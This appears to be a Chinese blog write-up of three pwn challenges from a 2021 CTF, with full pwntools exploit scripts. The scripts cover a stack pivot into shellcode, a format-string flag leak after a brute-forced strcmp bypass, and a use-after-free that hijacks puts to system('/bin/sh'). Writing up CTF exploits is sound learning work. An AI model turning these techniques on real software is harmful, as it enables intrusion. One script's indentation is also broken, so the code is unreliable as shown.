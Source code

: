 ```yaml
---
title: 第六届网络空间安全技术赛pwn
abbrlink: 54551
tags:
date: 2021-05-08
---
```

比赛没参加，本篇纯属因为无聊才写的(一个多月没做pwn了，顺便复习一下exp咋写...)   
<!--more-->
[题目]()
# small
应该是签到题吧   
checksec一看，保护全没开，极有可能    
![20210508154649](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210508154649.png)   
向大小为0x10的栈read 0x400个字节，很直接的想法就是输入shellcode然后跳转执行     
再一看下方有一个大小为0x50的bss段，exp差不多就能出来了

```py
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
p=process("./small")

payload1 = "A"*0x10 + p64(0x402020) + p64(0x401015)
p.sendline(payload1)
shellcode = asm(shellcraft.sh())
#gdb.attach(p)
#pause()
payload2 = "a"*0x10 + p64(0x402020) + p64(0x402030) + shellcode
p.sendline(payload2)
p.interactive()
```
上学期西电新生赛的栈迁移都比这个灵活

# bank

checksec:   
![20210508195950](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210508195950.png)
拖到ida里：   
![20210508202927](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210508202927.png)
![20210508202941](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210508202941.png)
先判断输入的password，然后printf存在很明显的格式化字符串漏洞，用于打印flag     

其中格式化字符串的漏洞只需要能够读栈上的值即可，这题的有意思的点在于爆破绕过strcmp    
![20210508212659](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210508212659.png)
![20210508212648](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210508212648.png)
注：fgets读取到“\n”时结束
```py
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
i=0
while(1):
	i+=1
    p=process("./bank")
	p.sendlineafter("Please enter your account:\n","a")
	p.sendlineafter("Please enter your password:\n","")
	if 'wrong' in p.recvline():
		p.close()
		continue
    print(i)
	sleep(1)
	p.sendline("yes")
	#p.sendlineafter("Do you want to check your account balance?\n","yes")
	p.sendlineafter("Please input your private code: \n","%8$s")
```

18年网鼎杯有个跟/dev/urandom有关的题目，https://bbs.pediy.com/thread-246590.htm，蛮有意思的，linux默认单个进程打开的最大文件数为1024


# managebook
常规的uaf，类似经典的hacknote
```py
from pwn import *
context(arch="amd64",os='linux')

p = process("./managebooks")
elf = ELF("./managebooks")

def create(name_size,name,summary_size,summary):
	p.recv()
	p.sendline("1")
	p.sendlineafter("Enter book name size: ",str(name_size))
	p.sendlineafter("Enter book name: ",name)
	p.sendlineafter("Enter book summary size: ",str(summary_size))
	p.sendlineafter("Enter book summary: ",summary)
	
def delete(num):
	p.recv()
	p.sendline("2")
	p.sendline(str(num))

def change(num,size,summary):
	p.recv()
	p.sendline("3")
	p.sendlineafter("Select Book ID (0-10): ",str(num))
	p.sendlineafter("Enter book summary size: ",str(size))
	p.sendlineafter("Enter book summary: ",summary)

def read(num):
	p.recv()
	p.sendline("4")
	p.sendlineafter("Select Book ID (0-10): ",str(num))

puts_plt = elf.plt["puts"]
puts_got = elf.got['puts']

create(0x20,"aaaa",0x20,"AAAA")
create(0x20,"bbbb",0x20,"BBBB")

delete(0)

change(1,0x18,p64(puts_plt)+p64(0)+p64(puts_got))
#gdb.attach(p)
read(0)

puts_addr= u64(p.recvline()[:-1].ljust(8,'\x00'))
print hex(puts_addr)

sys = puts_addr - 0x2a300
binsh = puts_addr + 0x11d777

change(1,0x18,p64(sys) + p64(0) + p64(binsh))

read(0)
p.interactive()
```


